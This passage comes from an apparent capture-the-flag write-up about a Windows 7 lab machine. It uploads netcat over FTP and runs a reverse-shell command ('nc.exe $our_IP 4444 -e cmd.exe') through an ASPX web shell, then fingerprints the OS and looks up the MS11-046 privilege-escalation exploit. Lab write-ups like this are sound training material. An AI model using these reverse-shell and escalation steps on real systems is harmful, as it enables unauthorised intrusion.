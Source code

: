So how do we get a shell from here?

We can upload netcat **(nc.exe)**, set up our listener and get a callback. This can be done as follows:

1. copy nc.exe to local dir:
	- cp /usr/share/windows-resources/binaries/nc.exe:
    
2. upload nc.exe to server via FTP
 	- ftp put nc.exe
        
3. setup our local machine listener for the call back:
  	- nc -nlvp 4444
    
4. go to $IP/cmdasp.aspx in the browser and find where is located
  	- dir "\cmdasp.aspx" /s

5. run nc.exe in browser to initate call back
	- c:\inetpub\wwwroot\nc.exe $our_IP 4444 -e cmd.exe

![2021-02-02 16_49_45-Window.png]({{site.baseurl}}/_posts/2021-02-02 16_49_45-Window.png)

After doing this we should get a call back on our listener and gained our foothold:

![2021-02-02 17_11_33-Window.png]({{site.baseurl}}/_posts/2021-02-02 17_11_33-Window.png)

However we are not SYSTEM, to do this we must escalate our privileges through the means of a **local exploit**

___

### 5. Getting SYSTEM

If we run **systeminfo** we can fingerprint the OS version and try and find available exploits online or in exploit-db:

	c:\windows\system32\inetsrv>systeminfo
    
    Host Name:                 DEVEL
    OS Name:                   Microsoft Windows 7 Enterprise 
    OS Version:                6.1.7600 N/A Build 7600
    ...
    System Type:               X86-based PC
    Processor(s):              1 Processor(s) Installed.
                               [01]: x64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
    ...

    c:\windows\system32\inetsrv>

What immediately stands out is the **OS name** and **version** - **Windows 7 6.1.7600**. Furthermore, running a **x64** processor

If we google for **"Windows 7 6.1.7600"** we find out there's a local privsec exploit - **MS11-046**

This is on exploit-db so we can find it on our local kali machine using:
	
    	searchsploit MS11-046
